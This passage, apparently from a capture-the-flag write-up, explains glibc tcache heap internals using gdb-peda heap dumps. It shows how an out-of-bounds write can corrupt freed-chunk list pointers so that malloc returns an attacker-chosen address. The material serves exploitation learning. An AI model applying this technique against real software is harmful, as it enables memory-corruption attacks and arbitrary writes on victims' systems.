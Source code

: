 

There are now two chunks in each bin (0x20 and 0x40), and that the last
in goes to the front of the list:



    gdb-peda$ heapinfo
    ...[snip]...
    (0x20)   tcache_entry[0]: 0x15172a0 --> 0x1517300 # old desc 0 --> old desc 1
    (0x40)   tcache_entry[2]: 0x1517260 --> 0x15172c0 # old config 0 --> old config 1



These linked lists are kept with addresses in the space where the data
used to be in the heap. Now on the heap the pointers from the chunks at
the front of the list to the later chunks:



    gdb-peda$ x/32xg 0x1517260 - 0x10
    0x1517250:      0x0000000000000000      0x0000000000000041 # config 0 chunk meta
    0x1517260:      0x00000000015172c0      0x0000000001517010 # ptr to next 0x40 tcache chunk
    0x1517270:      0x0000000000000000      0x0000000200000001
    0x1517280:      0x0000000400000003      0x0000000000000018
    0x1517290:      0x00000000015172a0      0x0000000000000021 # desc 0 chunk meta 
    0x15172a0:      0x0000000001517300      0x0000000001517010 # ptr to next 0x20 tcache chunk
    0x15172b0:      0x0000000000000000      0x0000000000000041 # config 1 chunk meta
    0x15172c0:      0x0000000000000000      0x0000000001517010 # null terminate tcache list
    0x15172d0:      0x0000000000000000      0x0000000200000001
    0x15172e0:      0x0000000400000003      0x0000000000000018
    0x15172f0:      0x0000000001517300      0x0000000000000021 # desc 1 chunk meta
    0x1517300:      0x0000000000000000      0x0000000001517010 # null terminate tcache list
    0x1517310:      0x0000000000000000      0x0000000000020cf1
    0x1517320:      0x0000000000000000      0x0000000000000000
    0x1517330:      0x0000000000000000      0x0000000000000000
    0x1517340:      0x0000000000000000      0x0000000000000000



If I create a config now, I'll see that the new chunks are taken from
the front of the list:



    gdb-peda$ heapinfo
    ...[snip]...
    (0x20)   tcache_entry[0]: 0x1517300
    (0x40)   tcache_entry[2]: 0x15172c0



Because these linked list pointers are kept on the heap, if I can get a
write out of bounds (which I've shown I can), I can overwrite the linked
list pointers and trick the heap management into thinking it can give
out space of the size of that list at the address I gave it. In other
words, if I can overwrite a pointer in the list, I can get `malloc` to
return a pointer to write wherever I want.

I'll demonstrate in `gdb`, continuing from above. The null terminator
for the 0x20 bin linked list is at `0x1517300`. I'll change it to some
other address on the heap:
